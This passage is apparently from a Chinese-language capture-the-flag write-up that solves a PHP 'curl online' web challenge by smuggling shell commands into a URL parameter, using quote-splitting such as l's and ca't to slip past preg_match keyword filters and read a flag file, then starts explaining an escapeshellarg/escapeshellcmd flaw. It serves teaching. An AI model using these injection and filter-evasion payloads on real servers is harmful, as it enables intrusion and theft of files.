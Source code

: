 在網址欄輸入以下網址，理論上就可以讓他跑出ls指令
```php
';'ls
```

在system裡面會長成這樣:
```php
system("curl -s '';'ls'")
```
前面的單引號被弄成空字串不會起作用，再另外打上ls，這樣就可以下ls的指令了

但是這時候會出現hack detectd，因為網站有preg_match的PHP碼來防止某些關鍵字出現
不過linux指令有個特性是，他是以字串的形式輸入，所以ls改成'l's，或是cat改成c'a't，他都能照原本的方式運作，並且能防止被preg_match抓到

所以改成指令:
```php
';l's
變成
system("curl -s '';l's'")
```
然後會發現這個目錄底下沒啥好看的，所以我們改成從根目錄開始看

下指令:
```php
';l's' '/
變成
system("curl -s '';l's' '/'")
```
會發現有個flag-415cd468353da8d26974ae6f8a7d9b30a830b8b4的檔案，一看就藏了flag，所以我們嘗試讓他發送cat指令來輸出

下指令(注意他也擋了cat跟flag，所以用跟l's'一樣的手法處理):
```php
';ca't' '/f'l'ag-415cd468353da8d26974ae6f8a7d9b30a830b8b4
變成
system("curl -s '';ca't' '/f'l'ag-415cd468353da8d26974ae6f8a7d9b30a830b8b4'")
```
這樣就可以得到這題的flag了


## 4. [[Web] Curl Online Pro](https://curl-online-pro.ching367436.me:8443/?url=example.com%2F)

這是上一題的進階，從source code可以看到，他使用了escapeshellarg跟escapeshellcmd函式來避免輸入的東西帶有指令。不過這兩個東西同時使用(先用arg再用cmd)的時候卻會發生問題

source code:
```php
$url = escapeshellarg($url);
$cmd = escapeshellcmd("curl -s $url");
return $cmd;
```

escapeshellarg函式的功能是在資料的兩側加上單引號，以保證他是字串，避免讀入分號之類的會影響操作的字
ex: 
```
;ls -> ';ls'
```
如果資料中有單引號'，則讓他跳脫並保證他是字串
ex: 
```
' -> '\''
```
透過這個函式可以很好的避免被攻擊
